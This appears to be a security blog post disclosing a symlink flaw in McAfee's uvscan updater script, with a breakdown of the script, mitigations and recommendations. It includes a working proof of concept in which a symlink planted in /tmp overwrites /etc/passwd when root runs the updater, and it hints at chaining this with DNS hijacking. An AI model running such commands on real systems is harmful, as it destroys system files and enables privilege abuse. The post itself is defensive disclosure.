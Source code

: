 ```yaml
---
layout: post
title: McAfee Updater - I just shat on your filesystem
fullview: true
---
```


This document discusses a vulnerability in McAfee's updater. The download for this, and a KB article discussing it, is found here:
[https://kc.mcafee.com/corporate/index?page=content&id=KB67513](https://kc.mcafee.com/corporate/index?page=content&id=KB67513) 

### Background

It is stated by McAfee:
NOTE: The attached script is only an example of how to automate the update process and is not officially supported by McAfee Technical Support. Please also see KB67821 - DAT files are not removed from the /tmp/dat-update directory for a known issue with respect to this script when using the /sbin/sh shell.
The discussed KB article:
https://kc.mcafee.com/corporate/index?page=content&id=KB67821
How can McAfee actually expect you to operate a virus scanner without a regular update process? Either we accept the product as effectively useless, or we produce a better update process.
UVscan itself has been the subject of an identical symlink bug, for which McAfee released a security fix back in 2008.

https://kc.mcafee.com/corporate/index?page=content&id=KB51216


### Breaking the script down

Upon unzipping, some interesting parts of the script are:

- Insists you set an email address. This implies the script has some sort of alerting capabilities. No. It just uses it to logon to an FTP server as a password.
- Run a "mkdir -p $tmp_dir". $tmp_dir defaults to /tmp/dat-update. Note the -p. If folder already exists - that's OK.
- Now check $tmp_dir exists. Duh.
- Download, from ftp.nai.com, avvdat.ini. McAfee link their own KB articles using SSL, where you have security against DNS hijacks. Why use FTP here?
- A tonne of shell scripting to parse avvdat.ini and get the latest version DAT file out of it, and the DAT file MD5.
- Download a ZIP file of the latest DAT
- Compare the MD5 of the downloaded file with the hash earlier downloaded from the same FTP site
- Unzip our DAT files over the top of our live ones.
- Do some integrity checking. Do nothing but error if there's a problem.

### Issues with this are

The most obvious of the issues is that there is no integrity on the downloaded files. Anyone who can hijack your DNS can setup their own ftp.nai.com, and store on it, an avvdat.ini file that never changes, preventing you from ever getting an update.
 More interestingly, the exercise to the reader is to utilise this, in combination with the below exploit, to overwrite, for example, /etc/passwd. Finally, with nothing stated anywhere, this script is going to end up run as root. This is a dumb enough move that the script itself should force the user to do otherwise.

### Profit

{% highlight bash %}
[Technion@turbonegro ~]$ echo Setting up the bomb
Setting up the bomb
[Technion@turbonegro ~]$ mkdir /tmp/dat-update
[Technion@turbonegro ~]$ ln -s /etc/passwd /tmp/dat-update/avvdat.ini


[root@turbonegro ~]# head -n 1 /etc/passwd
root:x:0:0:root:/root:/bin/bash
[root@turbonegro ~]# /bin/bash ~/uvscan/updater
Mechanism not supported
Mechanism not supported
KERBEROS_V4 rejected as an authentication type
Local directory now /tmp/dat-update
updater: DAT already up to date (6054.0)
[root@turbonegro ~]# head -n 1 /etc/passwd
[AVV-ZIP]
[root@turbonegro ~]# whoami  
whoami: cannot find name for user ID 0
[root@turbonegro ~]# ruh-roh :(
{% endhighlight %}

### Mitigating facts

A secure umask means the above attack would need to be carried out prior to the first update, or after a cleanup by tmpwatch, which runs by default on many distributions. Some distributions and configurations also remove this directory on reboot, or mount it as a tmpfs. In my opinion, although a secure umask should always be in place, a security application such as a virus scanner should not count on it. I also think this is the least serious of the vulnerabilities.

### Recommendations
- Utilise "least privilege" principle on the updater script
- Utilise the alternate script provided. This script contains information on implementing the above requirement.
- Implement an SSL site for downloads, or digitally sign downloads in a way that can be verified prior to installation.

### Fixed Updater

I cannot stress enough this only resolves the symlink issue demonstrated above. It does not solve any issues to do with the fact there is no verification on the source these files are downloaded from. To implement a highly paranoid downloader script, see here: [uvupdater.pl](/assets/downloads/uvupdater.pl). Instructions on its use are contained within its headers.


